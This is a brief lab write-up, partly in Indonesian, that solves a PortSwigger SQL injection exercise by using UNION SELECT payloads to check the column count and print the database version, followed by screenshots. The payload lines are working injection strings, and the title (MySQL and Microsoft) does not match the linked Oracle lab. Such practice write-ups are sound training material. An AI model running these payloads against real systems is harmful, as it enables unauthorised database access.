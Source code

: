 # - Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

# - Link
https://portswigger.net/web-security/sql-injection/lab-querying-database-version-oracle

# - Cara

## Step
1. Cek adanya dua kolom dengan ```sql '+UNION+SELECT+'abc','def'+FROM+dual--```
2. Dan masukkan payload ini untuk cek versi ```sql '+UNION+SELECT+@@version,+NULL#```

## Gambar
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_18_09_2025_02_18_26" src="https://github.com/user-attachments/assets/7f7095f3-10c8-4cf9-b61f-e7146d45714a" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_18_09_2025_02_19_02" src="https://github.com/user-attachments/assets/3394537f-ffee-4f78-89be-a2b807251c87" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_18_09_2025_02_19_11" src="https://github.com/user-attachments/assets/17d8d7d1-9113-45d2-a7ad-4d002f1faf62" />

## Berhasil


